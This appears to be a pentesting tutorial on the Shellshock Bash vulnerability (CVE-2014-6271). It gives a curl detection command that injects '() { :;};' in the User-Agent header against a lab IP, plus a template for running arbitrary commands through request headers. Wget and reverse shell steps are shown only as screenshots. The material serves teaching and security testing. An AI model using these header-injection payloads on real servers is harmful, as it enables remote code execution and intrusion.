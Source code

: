 # Shellshock (CVE-2014-6271).
Shellshock is a security vulnerability in the Bash shell, discovered in 2014, that allows attackers to execute arbitrary commands on a vulnerable system. 
It exploits the way Bash handles environment variables and functions. By injecting malicious code into these variables, an attacker can gain control of the system, 
execute commands, or bypass security restrictions, making it a serious risk for servers and devices running vulnerable versions of Bash.



[Pentesterlab](https://pentesterlab.com/exercises/cve-2014-6271)


## Detection.
Shellshock can be exploited regularly in `.sh` or `.cgi` files, we can add those extensions to search them in our fuzzing.


<p align="center">
  <img src="https://github.com/user-attachments/assets/c345d0f0-18c2-4540-b2a3-85e0c34000d0" width="700">
  <img src="https://github.com/user-attachments/assets/cebb8533-3432-4f04-a13b-440ceedd163c" width="700">
  <img src="https://github.com/user-attachments/assets/960f5556-2552-4183-9cdb-bbfda6d0d8d0" width="700">
</p>



<br />

> Shellshock payloads allways begin with: ``() { :;};``.

 ### curl.

<br />
Once we think we have found this vulnerability we can send the next `curl` to the server and check if it answers back. If it does we are against a shellshock vulnerability.

```bash 
curl -H ‘User-Agent: () { :;}; echo; echo ¿Es vulnerable?’ ‘http://10.10.10.56/cgi-bin/user.sh’
```

![3](https://github.com/user-attachments/assets/6c0b21d6-0bd6-42b6-b521-ac1d2da3f7a0)

> We can use Burpsuite too.

![4](https://github.com/user-attachments/assets/a81d1633-5f1d-4890-8823-e02daf1e26de)

## RCE.
Once we know are facing Shellshock we can try to excute commands in the target. To de so we will deploy our commands as follows:
```bash
User-Agent: () { :;}; /bin/bash -c "<COMMAND>"
```
### ping
![5](https://github.com/user-attachments/assets/919c41be-6fa8-4434-9da8-312406cee5f3)
### wget
![6](https://github.com/user-attachments/assets/d5026f68-17dd-4653-aa11-cb0fcfc2ba66)
## Reverse Shell.
![7](https://github.com/user-attachments/assets/1fbb699f-7a81-4930-b397-ec00252ab454)
![8](https://github.com/user-attachments/assets/e998e129-99ff-4039-a2bc-1119bb73b80c)

Any of the headers of the request can be used to deploy our payload as you can see in the following pictures:
![10](https://github.com/user-attachments/assets/95cec147-4243-4843-bc07-087fa42bfdf1)
![11](https://github.com/user-attachments/assets/ab9d9ce1-c41f-44b7-ac8e-0c44cf1fae25)









